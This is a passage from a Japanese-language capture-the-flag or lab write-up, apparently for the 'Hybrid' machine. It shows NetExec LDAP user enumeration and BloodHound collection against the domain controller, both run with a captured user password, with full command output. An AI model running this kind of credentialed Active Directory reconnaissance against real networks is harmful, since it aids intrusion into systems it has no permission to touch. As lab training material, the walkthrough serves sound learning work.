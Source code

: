 LDAPについても調べる
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ nxc ldap hybrid.vl -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' --users
LDAP        10.10.206.37    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hybrid.vl)
LDAP        10.10.206.37    389    DC01             [+] hybrid.vl\peter.turner:b0cwR+G4Dzl_rw 
LDAP        10.10.206.37    389    DC01             [*] Enumerated 13 domain users: hybrid.vl
LDAP        10.10.206.37    389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.206.37    389    DC01             Administrator                 2023-06-17 14:53:20 0        Built-in account for administering the computer/domain      
LDAP        10.10.206.37    389    DC01             Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.206.37    389    DC01             krbtgt                        2023-06-17 14:04:47 0        Key Distribution Center Service Account                     
LDAP        10.10.206.37    389    DC01             Edward.Miller                 2023-06-17 14:46:22 0                                                                    
LDAP        10.10.206.37    389    DC01             Pamela.Smith                  2023-06-17 14:46:22 0                                                                    
LDAP        10.10.206.37    389    DC01             Josh.Mitchell                 2023-06-17 14:46:22 0                                                                    
LDAP        10.10.206.37    389    DC01             Peter.Turner                  2023-06-17 14:46:22 0                                                                    
LDAP        10.10.206.37    389    DC01             Olivia.Smith                  2023-06-17 14:46:22 0                                                                    
LDAP        10.10.206.37    389    DC01             Ricky.Myers                   2023-06-17 14:46:23 0                                                                    
LDAP        10.10.206.37    389    DC01             Elliot.Watkins                2023-06-17 14:46:23 0                                                                    
LDAP        10.10.206.37    389    DC01             Emily.White                   2023-06-17 14:46:23 0                                                                    
LDAP        10.10.206.37    389    DC01             Kathleen.Walker               2023-06-17 14:46:23 0                                                                    
LDAP        10.10.206.37    389    DC01             Margaret.Shepherd             2023-06-17 14:46:23 0
```
LDAPについても権限があることがわかった。

## BloodHound
LDAPの読み取り権限があることがわかったので、BloodHoundで詳細に分析する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/DC]
└─$ sudo bloodhound-python -u 'peter.turner@hybrid.vl' -p 'b0cwR+G4Dzl_rw' -ns 10.10.206.37 -d hybrid.vl -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: hybrid.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 14 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mail01
INFO: Querying computer: dc01.hybrid.vl
```